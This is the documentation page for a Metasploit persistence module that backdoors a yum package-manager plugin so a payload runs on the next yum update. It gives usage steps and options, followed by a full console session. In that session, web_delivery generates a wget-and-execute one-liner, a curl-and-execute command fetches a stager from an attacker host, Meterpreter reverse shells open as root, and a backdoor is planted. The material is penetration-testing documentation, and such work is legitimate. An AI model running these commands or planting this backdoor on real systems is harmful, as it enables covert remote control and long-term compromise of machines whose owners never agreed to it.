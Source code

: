 ## Description

This module will run a payload when the package manager is used.
This module modifies a yum plugin to launch a binary of choice.
`grep -F 'enabled=1' /etc/yum/pluginconf.d/`
will show what plugins are currently enabled on the system.

root persmissions are likely required.

Verified on Centos 7.1

## Verification Steps

1. Exploit a box that uses Yum
2. `use exploit/linux/persistence/yum_package_manager`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

## Options

### PAYLOAD_NAME

Name of backdoor executable

### PLUGIN

Name of the yum plugin to target

### PluginPath

Plugin path to use default is (`/usr/lib/yum-plugins/`)

## Scenarios

### Tested on Centos 7.1

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO KOiqZchh --no-check-certificate http://111.111.1.111:8181/l; chmod +x KOiqZchh; ./KOiqZchh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.100
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 192.168.2.100:34470) at 2025-02-16 11:30:09 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/yum_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/yum_package_manager) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/home/centos) > getuid
Server username: root
(Meterpreter 1)(/home/centos) > sysinfo
Computer     : centos71.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/centos) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > exploit
[*] Command to run on remote host: curl -so ./lgtOaZox http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./lgtOaZox;./lgtOaZox&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/yum_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[+] Plugins are enabled!
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53880) at 2025-02-16 11:30:59 -0500
[!] The service is running, but could not be validated. yum installed and plugin found, enabled, and backdoorable
[*] Attempting to modify plugin
[*] Backdoor uploaded to /tmp/7EtplboZD
[+] Backdoor will run on next Yum update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/centos71.localdomain_20250216.3101/centos71.localdomain_20250216.3101.rc
```